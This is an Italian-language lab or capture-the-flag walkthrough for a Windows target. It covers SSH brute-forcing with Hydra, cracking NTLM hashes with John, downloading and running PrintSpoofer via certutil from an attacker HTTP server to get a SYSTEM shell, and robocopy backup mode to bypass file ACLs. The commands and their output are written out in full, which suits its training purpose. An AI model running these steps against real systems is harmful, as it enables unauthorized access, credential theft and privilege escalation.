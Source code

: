 ## FLAG1

**Obiettivo:** trovare la password SSH dell’utente `alice` e leggere `flag1.txt`.

1. **Brute-force SSH con Hydra**

   ```bash
   hydra -l alice -P /usr/share/wordlists/rockyou.txt ssh://target.ine.local -t 4 -f
   ```

   * `-l alice`: utente bersaglio
   * `-P rockyou.txt`: wordlist di password comuni
   * `-t 4`: 4 thread
   * `-f`: stop al primo login valido

2. **Risultato**

   ```
   [ssh] host: target.ine.local   login: alice   password: princess1
   ```

3. **Accesso al target e lettura della flag**

   ```powershell
   alice@WIN-GQ7PTVEC6HL C:\Users\alice> type flag1.txt
   5f71[REDACTED]1d1ed
   ```

---

## FLAG2

**Obiettivo:** estrarre gli hash NTLM dal dump di `hashdump.txt`, craccarli con John e leggere `flag2.txt` come `david`.

1. **Preparazione del file**
   Il dump era già nel formato `username:RID:LMHASH:NTHASH:::`, compatibile con John.

2. **Crack con John the Ripper**

   ```bash
   john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
   ```

3. **Recupero della password**

   ```bash
   david:orange
   ```

4. **Login SSH con `david` e lettura della flag**

   ```bash
   ssh david@target.ine.local
   david@WIN-GQ7PTVEC6HL C:\Users\david> type flag2.txt
   6c1e3[REDACTED]376f5b7c2
   ```

---

## FLAG3

**Obiettivo:** ottenere una shell SYSTEM usando PrintSpoofer e leggere `flag3.txt`.

1. **Avvio di un server HTTP sul Linux host**

   ```bash
   screen python3 -m http.server 80
   ```

   * rende disponibile `PrintSpoofer.exe` su `http://<IP_Linux>/PrintSpoofer.exe`

2. **Download del binario su Windows**

   ```powershell
   certutil -urlcache -f http://<IP_Linux>/PrintSpoofer.exe C:\Users\Public\PrintSpoofer64.exe
   ```

3. **Esecuzione di PrintSpoofer per ottenere una shell SYSTEM**

   ```cmd
   C:\Users\Public\PrintSpoofer64.exe -i -c cmd
   ```

   * `-i`: impersona il token SYSTEM
   * `-c cmd`: apre `cmd.exe` con privilegi SYSTEM

4. **Lettura di `flag3.txt`**

   ```cmd
   C:\Windows\System32\config> type flag3.txt
   207[REDACTED]9c5d
   ```

---

## FLAG4

**Obiettivo:** copiare `flag4.txt` da una directory protetta usando Robocopy in modalità backup e leggerne il contenuto.

1. **Copia del file con Robocopy in modalità Backup**

   ```powershell
   robocopy C:\Users\Administrator\flag C:\Users\david\Desktop flag4.txt /B
   ```

   * `/B`: Backup mode, usa privilegi di sistema per leggere file anche se l’ACL lo nega

2. **Lettura della flag come `david`**

   ```powershell
   david@WIN-GQ7PTVEC6HL C:\Users\david\Desktop> type flag4.txt
   870ecb7[REDACTED]a4
   ```

---

### Conclusioni

* **Hydra** per brute-force SSH
* **John** per crackare hash NTLM
* **PrintSpoofer** per ottenere shell SYSTEM
* **Robocopy /B** per bypassare ACL e leggere file protetti
